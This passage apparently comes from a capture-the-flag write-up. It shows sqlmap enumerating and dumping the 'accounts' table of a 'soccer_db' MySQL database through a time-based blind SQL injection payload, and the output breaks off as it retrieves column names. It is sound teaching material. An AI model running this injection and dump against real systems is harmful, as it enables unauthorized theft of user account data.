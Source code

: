 ```jsx
acc
[17:34:03] [ERROR] invalid character detected. retrying..
[17:34:03] [WARNING] increasing time delay to 2 seconds
ounts
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+

[17:34:52] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/localhost'

[*] ending @ 17:34:52 /2023-01-20/
```

Dumping the table:

```jsx
sqlmap -u "http://localhost:8081/?id=1" --dump -D soccer_db -T accounts
        ___
       __H__                                                                                                                       
 ___ ___[(]_____ ___ ___  {1.7#stable}                                                                                             
|_ -| . [']     | .'| . |                                                                                                          
|___|_  [,]_|_|_|__,|  _|                                                                                                          
      |_|V...       |_|   https://sqlmap.org                                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:35:05 /2023-01-20/

[17:35:05] [INFO] resuming back-end DBMS 'mysql' 
[17:35:05] [INFO] testing connection to the target URL
[17:35:06] [WARNING] turning off pre-connect mechanism because of incompatible server ('SimpleHTTP/0.6 Python/3.10.9')
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 4321 FROM (SELECT(SLEEP(5)))IZXb)
---
[17:35:06] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[17:35:06] [INFO] fetching columns for table 'accounts' in database 'soccer_db'
[17:35:06] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)    
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[17:35:39] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
4
[17:35:41] [INFO] retrieved: 
[17:35:52] [INFO] adjusting time delay to 2 seconds due to good response times
id
[17:36:05] [INFO] retrieved: email
[17:36:46] [INFO] retrieved: username
```